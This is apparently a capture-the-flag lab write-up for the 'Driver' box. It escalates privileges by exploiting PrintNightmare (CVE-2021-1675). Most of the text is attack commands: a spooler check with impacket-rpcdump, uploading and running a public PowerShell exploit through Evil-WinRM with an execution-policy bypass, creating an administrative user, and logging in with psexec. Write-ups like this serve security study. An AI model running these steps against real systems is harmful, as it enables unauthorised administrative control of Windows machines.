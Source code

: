 # Alternative way to exploit Driver

## Privilege Escalation

Instead of exploiting the vulnerability in the **Ricoh printer**, it is possible to exploit the **PrintNightmare** vulnerability.

Checking if the box is vulnerable:
```
impacket-rpcdump @10.10.11.106

Protocol: [MS-RPRN]: Print System Remote Protocol  
Provider: spoolsv.exe
```

Uploading a PowerShell script for [CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675) to the box:
```
*Evil-WinRM* PS C:\ProgramData> upload CVE-2021-1675.ps1
```

Bypassing execution policy and running the script:
```
*Evil-WinRM* PS C:\ProgramData> Set-ExecutionPolicy Bypass -Scope Process
*Evil-WinRM* PS C:\ProgramData> ./CVE-2021-1675.ps1

*Evil-WinRM* PS C:\ProgramData> Invoke-Nightmare
```

The function creates an administrative user that can be used to login to the box:
```
impacket-psexec adm1n@10.10.11.106
```
